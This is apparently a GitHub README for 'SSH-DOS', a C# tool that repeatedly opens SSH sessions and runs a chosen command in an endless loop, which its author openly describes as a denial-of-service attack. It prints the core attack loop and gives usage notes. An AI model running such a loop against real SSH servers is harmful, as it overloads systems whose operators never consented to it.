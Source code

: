 # SSH-DOS
For stress testing SSH by repeatedly connecting and issuing commands.

[![Build status](https://ci.appveyor.com/api/projects/status/wwbnlje4gl61en7i?svg=true)](https://ci.appveyor.com/project/bman46/ssh-dos)

## Core Related Responces:

- This program is written in C# and is meant to perform a Denial of Service attack on a SSH connection. 
- The conditional structure found in `Form1.cs`:
`if (_worker.CancellationPending)
 {
   break;
 }`
 is meant to kill the background worker loop when the user clicks on the stop button.
 - The looping structure: 

            _worker.DoWork += new DoWorkEventHandler((state, args) =>
            {
                do
                {
                    if (_worker.CancellationPending)
                    {
                        break;
                    }

                    using (SshClient client = new SshClient(textBox1.Text, textBox2.Text, textBox3.Text))
                    {
     
                        
                        try
                        {
                            client.Connect();
                            if (Screen.Checked)
                            {
                                client.RunCommand("screen");
                            }
                            client.RunCommand(textBox4.Text);
                            if (!Disconnect.Checked)
                            {
                                client.Disconnect();
                            }
                        }
                        catch
                        {
                            MessageBox.Show("Error Connecting SSH", "SSH Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
                            break;
                        }
                        
                    }

                } while (true);
            });
uses a do while statement that repeatedly connects and issues commands to the target. This loop is killed by the stop button which then kills the worker; therefore, stopping the loop.

## Disclaimer:

This tool is released for educational purposes only.

Software is AS IS and i cannnot guarentee correct functionality.

You may not use this software for any illegal or unethical purpose; including activities which would give rise to criminal or civil liability.

Under no event shall the Licensor be responsible for the activities, or any misdeeds, conducted by the Licensee.

## Usage:

Download most recent release and then fill in the input fields.

`No Disconnect` means that it wont send a dissconnect and then try to recconect again.

`Use Screen` means that it will issue the command `Screen` before sending commands (Note: This command will be in the Loop and repeatedly issued)

![alt text](https://github.com/bman46/SSH-DOS/blob/master/SSH-DOS.PNG "Screen Shot of SSH-DOS")
###### Note: Some file names may say SSL but it was a mistake when i created the application and SSL has nothing to do with this repository/program.
